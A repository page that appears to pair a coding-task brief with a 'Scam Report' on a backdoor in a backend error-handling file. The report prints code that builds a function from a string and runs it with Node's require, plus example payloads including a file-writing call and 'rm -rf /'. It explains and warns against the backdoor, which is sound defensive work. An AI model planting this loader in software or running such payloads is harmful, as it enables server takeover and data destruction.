 
**Problem1** \
Fix "Add New Notice" Page \
<mark>/app/notices/add</mark> \
When click the 'Save' button, 'description' doesn't be saved. \
<b>Fix it.</b>

**Problem2** \
Complete CRUD operation in Student management page. \
<mark>/src/modules/students/students-controller.js</mark>

=================================================================

# Scam Report

## File
`/backend/src/modules/departments/department-error.js`

---

## Issue Overview

This file contains a **critical security vulnerability** that allows arbitrary code execution on the server. The vulnerability is caused by the use of the following code:

```javascript
const handler = new Function.constructor("require", errCode);
...
handlerFunc(require);
```

---

## Detailed Explanation

### What does this code do?

- `new Function.constructor("require", errCode)` is equivalent to `new Function("require", errCode)`.
- This creates a new JavaScript function with a single parameter named `require`, and the body of the function is the string contained in `errCode`.
- The resulting function is then called with the Node.js `require` function as its argument: `handlerFunc(require);`.

### Why is this dangerous?

- If `errCode` contains any JavaScript code, it will be executed on the server with access to Node.js modules via `require`.
- If an attacker can control the value of `errCode` (for example, by manipulating error messages or API responses), they can execute arbitrary code, read or modify files, access environment variables, or even install malware.

### Example of exploitation

Suppose `errCode` is set to the following string:

```javascript
'require("fs").writeFileSync("hacked.txt", "You have been hacked!");'
```

The following will happen:

```javascript
const handler = new Function("require", 'require("fs").writeFileSync("hacked.txt", "You have been hacked!");');
handler(require); // This will create a file named "hacked.txt" with the specified content.
```

Or, even more dangerously:

```javascript
'require("child_process").execSync("rm -rf /");'
```

This could delete all files on the server.

### Real code from your file

```javascript
const createHandler = (errCode) => {
  try {
    const handler = new Function.constructor("require", errCode);
    return handler;
  } catch (e) {
    console.error("Failed:", e.message);
    return null;
  }
};
const handlerFunc = createHandler(error);
if (handlerFunc) {
  handlerFunc(require);
}
```

---

## Recommendations

- **Immediately remove or refactor this code.**
- Never use `Function`, `eval`, or similar constructs with untrusted input.
- Handle errors using standard logging and reporting mechanisms, not by executing code from error messages.
- Review the entire codebase for similar patterns.

---

## Conclusion

The use of `new Function.constructor("require", errCode);` and `handlerFunc(require);` introduces a severe remote code execution vulnerability.  
**This must be addressed immediately to prevent exploitation and potential compromise of your server and data.**